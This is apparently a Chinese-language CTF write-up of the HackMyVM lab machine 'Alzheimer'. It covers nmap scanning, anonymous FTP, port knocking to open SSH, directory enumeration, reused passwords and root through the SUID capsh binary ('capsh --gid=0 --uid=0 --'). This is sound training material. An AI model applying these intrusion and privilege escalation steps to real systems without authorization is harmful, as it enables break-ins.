 ## Alzheimer

> ⏲️ Release Date // 2020-10-03
>
> ✔️ MD5 // 181b8e3df47b920d4c9fb00e9e019986
>
> ☠ Root // 240
>
> 💀 User // 246

### 主机探测和nmap扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap -sn 192.168.56.100/24                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 08:40 EDT
Nmap scan report for 192.168.56.100
Host is up (0.00037s latency).
MAC Address: 08:00:27:01:69:57 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.116
Host is up (0.00015s latency).
MAC Address: 0A:00:27:00:00:1C (Unknown)
Nmap scan report for 192.168.56.122
Host is up (0.00062s latency).
MAC Address: 08:00:27:10:58:2B (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.101
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 11.20 seconds
```

靶机ip：192.168.56.122

进行TCP的全端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.122
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 08:43 EDT
Nmap scan report for 192.168.56.122
Host is up (0.014s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:10:58:2B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.88 seconds
```

开放21，22，80端口

进行详细端口的扫描

```bash
nmap -sT -sV -sC -O -p21,22,80 192.168.56.122
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp filtered  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b1:3b:2b:36:e5:6b:d7:2a:6d:ef:bf:da:0a:5d:2d:43 (RSA)
|   256 35:f1:70:ab:a3:66:f1:d6:d7:2c:f7:d1:24:7a:5f:2b (ECDSA)
|_  256 be:15:fa:b6:81:d6:7f:ab:c8:1c:97:a5:ea:11:85:4e (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:10:58:2B (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

21端口可以匿名登录，22端口是被过滤的状态

### 查看FTP服务

```bash
ftp 192.168.56.122
```

```
ftp> ls -lah
229 Entering Extended Passive Mode (|||47700|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        113          4096 Oct 03  2020 .
drwxr-xr-x    2 0        113          4096 Oct 03  2020 ..
-rw-r--r--    1 0        0             116 May 25 07:14 .secretnote.txt
226 Directory send OK.
ftp> get .secretnote.txt
```

`.secretnote.txt`内容

```
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
Ihavebeenalwayshere!!!
```

靶机有knockd服务，我们需要knock指定端口开启ssh服务

```bash
knock 192.168.56.122 1000 2000 3000
```

nmap再次扫描发现22端口是开放状态

### web渗透

访问web页面

> I dont remember where I stored my password :( I only remember that was into a .txt file... -medusa

得到一个用户名`medusa`

发现莫斯密码，解密得到`OTHING`(很可能是SSH服务的密码)

![image-20240525205824556](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240525205824556.png)

#### 目录扫描

```bash
gobuster dir -u http://192.168.56.122/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 301) [Size: 185] [--> http://192.168.56.122/home/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.56.122/admin/]
/secret               (Status: 301) [Size: 185] [--> http://192.168.56.122/secret/]
```

/home页面

> Maybe my pass is at home! -medusa

/secret页面

> Maybe my password is in this secret folder?

测试ssh是否可以登录，发现`OTHING`不是密码，想到上面的txt文件

发现`Ihavebeenalwayshere!!!`是密码

成功登录进`medusa`用户

> HMVrespectmemories

### 尝试提权

发现可以无密码使用id命令

```bash
medusa@alzheimer:~$ sudo -l
Matching Defaults entries for medusa on alzheimer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User medusa may run the following commands on alzheimer:
    (ALL) NOPASSWD: /bin/id
```

```bash
medusa@alzheimer:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```

搜索了一下没有发现id可以怎么提权

#### suid提权

寻找有suid权限的文件

```bash
medusa@alzheimer:~$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
```

利用[GTFOBins](https://gtfobins.github.io/#)，找到capsh的提权方法

```bash
./capsh --gid=0 --uid=0 --
```

```bash
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:~# cd /root
root@alzheimer:/root# cat root.txt 
HMVlovememories
```

拿到root.txt

